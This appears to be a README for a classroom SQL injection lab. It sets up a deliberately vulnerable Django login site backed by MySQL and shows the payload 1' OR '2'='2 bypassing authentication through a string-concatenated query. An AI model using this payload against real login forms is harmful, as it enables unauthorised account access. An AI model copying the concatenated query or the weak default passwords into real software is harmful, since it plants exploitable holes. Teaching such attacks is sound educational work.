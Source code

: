 SQL Injection Attack
===

## Background

SQL injection is a code injection technique, used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for excution. [^1]In this project, we aim to have a experiment to execute SQL Injection.

## Environment Settings

- Add resources: one host (VM)
  
- Set up the host with a "publicly routable IP"
  <img src="img/set_publicly_routable_IP.png">

- Reserve resources for the site
  
- Login to the node by ssh

- Install necessary service

```
sudo apt-get update
sudo apt-get install mysql-server
sudo apt-get install python3
sudo apt-get install python3-pip
```

- Install git & Download source code

```
git clone https://github.com/zuquan-song/sql-injection-lab.git
```
- Make your work directory in sql-injection-lab

```
cd sql-injection-lab
```

- Install mysql & initialize data

```
# login mysql & create initial data
sudo mysql -uroot -p123456
mysql> create database weblab;
mysql> source scripts/InitPrivilege.sql;
mysql> source scripts/CreateUserTable.sql;
mysql> source scripts/InsertUserData.sql;
mysql> exit;
```

- Initialize python environment
```
# install packages
pip3 install django
pip3 install mysql-connector
```

- Run website service

```
cd vul_web/
python3 manage.py runserver 0.0.0.0:8000
```

## Normal Situations

### Correct Password

- Try login with 

  ```
  name: Zuquan_Song 
  password: 123456
  ```

  

<img src="img/normal_login.png" alt="image-20200418233118367" style="zoom:80%;" />

![image-20200418233220334](img/normal_result.png)

### Wrong Password

- Try login with 

```
name: Zuquan_Song
password: 123457
```

<img src="img/uncorrect_login.png" alt="image-20200418233118367" style="zoom:80%;" />

![image-20200418233220334](img/uncorrect_result.png)

## SQL Injection

- Try login with

```
name: 1' OR '2'='2
password: 1' OR '2'='2
```

![image-20200418233220334](img/sql_injection.png)

![image-20200418233220334](img/sql_injection_result.png)

- Explanation
>In <i>vul_web/model/user/login.py</i>, the sql statement to query whether the input username and password is valid is
>```
>"SELECT * FROM webuser WHERE (name = '" + user + "') and (password = '" + password + "');"
>```
>In this case name= "1' OR '2'='2" and password= "1' OR '2'='2"
>The query sql statement is
>```
>SELECT * FROM webuser WHERE (name = '1' OR '2'='2') and (password = '1' OR '2'='2');
>```
>'2'='2' will always be true  
>And the database will return all the (username,password) pairs </br>  
>In <i>vul_web/model/user/login.py</i>, the returned (username,password) pair after the for loop will be the last pair </br>  
>According to <i>scripts/InsertUserData.sql</i>, there are only two pairs of data
>```
>INSERT INTO webuser (name, password) VALUES ('Zuquan_Song', '123456');
>INSERT INTO webuser (name, password) VALUES ('Digong_Jiang', 'easyPassword');
>```
>The returned pair is (Digong_Jiang,easyPassword) </br>   
>Finally, the attacker using 1' OR '2'='2 as username and password is regarded to login as Digong_Jiang

[^1]: https://en.wikipedia.org/wiki/SQL_injection

